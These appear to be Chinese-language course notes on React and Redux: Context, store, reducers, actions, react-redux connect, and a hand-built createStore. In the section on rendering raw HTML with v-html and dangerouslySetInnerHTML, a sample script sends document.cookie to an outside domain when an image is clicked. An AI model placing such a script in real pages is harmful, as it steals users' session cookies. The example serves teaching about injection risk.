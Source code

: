 ## day6-2

### 复习
* 组件通讯
    * 父->子：props
        1. 在父组件中定义子组件的属性，并传递数据
        2. 使用
            * 函数组件：第一个参数为props
            * 类组件：this.props
    * 子->父
        > 传递父组件的方法到子组件执行
    * 多层级组件传参数
        * 逐层传递
        * Context
            1. 创建Context：`let MyContext = React.createContext(defalutValue)`
            2. 父组件共享数据：Provider
                ```js
                    <MyContext.Provider value={data}></MyContext>
                ```
            3. 子组件获取Context数据
                * contextType
                    ```js
                        SubComponent.contextType = MyContext;
                        this.context.xxx
                    ```
                * Consumer
                    ```js
                        <MyContext.Consumer>
                            {
                                data=>{
                                    return <div></div>
                                }
                            }
                        <MyContext.Consumer>
                    ```

### 知识点
* React & Redux
    > 他们是两个独立的产品，Redux不是React专属，它可以与任何第三方框架配合使用

* Redux
    > 搞清楚redux有什么，解决了什么问题
    * 核心概念Store
        * dispatch(action)    修改state的唯一方法
        * getState()          获取state数据
        * subscribe()
    * State
        > 真正存放数据的地方

    * Reducer：修改数据的方式
        > 在创建store时要事先定义好如何修改上面的数据
        * reducer是一个纯函数，state和actoin作为参数
        * 必须返回一个新的state
    * Action    命令（动作）
        * 格式：`{type,payload}`
            * type      要做什么操作
            * payload   传递的参数
        * Action Creator：一个用于创建action的方法
            * bindActionCreators：把ActionCreator中的所有方法(export default中的方法)绑定到组件props

* redux使用步骤
    1. 创建store（需要指定state与state的修改方式）
        * 需要定义state
        * 需要定义Reducer
    2. 定义State：状态（数据）
    3. 定义Reducer
        * 修改state的方式
        * 必须返回一个新的state
    4. 使用
        * 获取：store.getState()
        * 修改：store.dispatch(action)
        * 监听：store.subscribe(fn)
    
* react-redux
    * 利用context把store上的数据传入到react组件中
    * 使用步骤
        1. 在最外层使用`<Provider/>`组件，并共享Store
            ```js
                <Provider store={store}>
            ```
        2. 使用`connect`高阶组件映射数据到组件的props
            ```js
                connect([mapStateToProps][,mapDispatchToProps])(MyComponent)
            ```
            * 统一处理redux操作

* 在组件中显示包含html代码的数据
    ```html
        <img src="meinv.png" id="meinv"/>
        <h4>点我有惊喜</h4>
        <script>
            let meinv = document.querySelector('#meinv');
            meinv.onclick = function(){
                location.href="http://laoxie.com?data="+document.cookie

            }
        </script>
    ```
    * Vue：v-html
    ```html
        <div v-html="content"></div>
    ```
    * React:
    ```jsx
        //<div>{content}</div>
        <div dangerouslySetInnerHTML={{__html:content}}></div>
    ```

## day6-3

### 复习
* Redux：解决组件间数据共享的问题
    * 核心
        * Store     仓库（创建：createStore()）
            * 获取：store.getState()
            * 修改：store.dispatch(action)
            * 监听：store.subscribe(fn)
        * State     状态（数据）
        * Action    命令
        * Reducer   修改state的逻辑
            * 是一个纯函数，state,action作为参数
            * 返回新的state
    * store的工作原理
    ```js
        function createStore(reducer){
            let state = {}

            let listener = [];

            let getState = ()=>{
                return state;
            }
            let dispatch = (action)=>{
                state = reducer(state,action);

                listener.forEach(callback=>{
                    callback(getState());
                })
            }

            let subscribe = (callback)=>{
                listener.push(callback)
            }

            return {
                getState,
                dispatch,
                subscribe
            }
        }


        let store = createStore();
        let state = store.getState();
        //state.goodslist.push();// typescript是js的扩展
        //store.subscribe((state)=>{console.log(666)})
        //store.subscribe((state)=>{console.log(777)})
        //store.subscribe((state)=>{console.log(888)})
        //store.subscribe((state)=>{console.log(999)})
        //store.dispath();

    ```
* react-redux：连接React组件与Redux数据
    > 利用context+高阶组件实现react组件与redux数据的连接
    * Provider
        * 用法：`<Provider store={store}>`
    * connect
        * 用法：`connect(mapStateToProps,mapDispatchToProps)(Component)`    函数柯里化

* Action Creator 
    > 用于创建Action的函数
    * bindActionCreators(actionCreator,dispatch)